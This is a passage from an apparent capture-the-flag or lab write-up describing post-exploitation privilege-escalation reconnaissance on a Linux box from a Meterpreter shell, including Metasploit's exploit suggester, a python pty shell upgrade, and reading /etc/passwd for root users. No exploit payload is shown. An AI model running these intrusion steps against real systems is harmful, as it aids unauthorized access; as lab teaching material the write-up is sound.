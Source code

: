 ## Privilege Escalation
My first steps towards privilege escalation consisted of a bit of recon work. I started with checking the kernel version and the current user:

```shell_session
meterpreter > sysinfo
Computer    : indishell
OS          : Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter >
```

I then ran the `local_exploit_suggester` post module, to see if Metasploit could hit gold fast, but unfortunately, no results were found; even though I was positive I had previously seen a kernel exploit that worked with 3.13:

```shell_session
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.2.0.104 - Collecting local exploits for php/linux...
[-] 10.2.0.104 - No suggestions available.
meterpreter >
```

Kernel exploits aside, I began to check the environment a bit more, to see if there's anything already on the system that was of use.

I first checked which users are super users, to find the only super user is root:

```shell_session
meterpreter > shell
Process 1299 created.
Channel 2 created.
python -c 'import pty; pty.spawn("/bin/sh")'

$ awk -F: '($3 == "0") {print}' /etc/passwd
awk -F: '($3 == "0") {print}' /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

I then checked which services were running as root, using `ps aux | grep root`, but nothing particularly interesting showed up at first glance.

Checking the sshd configuration indicated that root logins were permitted. So I traversed the home directories to see if there was anything that could indicate the root password, but the only user with a home directory was `ica`, which was empty:


```shell_session
$ ls -l /home
ls -l /home
total 4
drwxr-xr-x 4 ica ica 4096 Mar 20 10:08 ica
$ ls -l /home/ica
ls -l /home/ica
total 0
```
